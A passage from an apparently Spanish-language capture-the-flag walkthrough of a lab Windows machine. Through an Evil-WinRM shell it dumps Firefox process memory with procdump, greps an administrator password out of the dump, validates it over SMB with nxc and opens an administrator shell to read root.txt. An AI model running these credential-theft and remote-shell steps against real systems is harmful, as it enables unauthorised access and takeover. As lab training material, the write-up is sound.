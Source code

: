 ```bash
*Evil-WinRM* PS C:\Test> .\procdump64.exe -ma 6716 -accepteula

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[23:14:18] Dump 1 initiated: C:\Test\firefox.exe_250124_231418.dmp
[23:14:19] Dump 1 writing: Estimated dump file size is 498 MB.
[23:14:20] Dump 1 complete: 498 MB written in 1.1 seconds
[23:14:20] Dump count reached.

*Evil-WinRM* PS C:\Test> download firefox.exe_250124_231418.dmp
```

### Reading the password of the administrator user in the previously performed dump

Revisaremos el volcado de memoria que disponemos en nustro equipo local, filtraremos por los campos que nos interesen y al parecer hemos logrado encontrar en el volcado de memoria lo que parecen ser las credenciales del usuario `Admninistrator`.

```bash
❯ strings firefox.exe_250124_231418.dmp | grep -iE "login_username|login_password"
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
O^privateBrowsingId=1,p,:http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
http://localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

Validaremos si son las credenciales válidas, al verificar el acceso, nos conectaremos mediante `evil-winrm` y lograremos visualizar la flag de **root.txt**.

```bash
❯ nxc smb 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10 / Server 2019 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
❯ evil-winrm -i 10.10.10.149 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ../Desktop/root.txt
ce9b4ccf9ab*********************
```
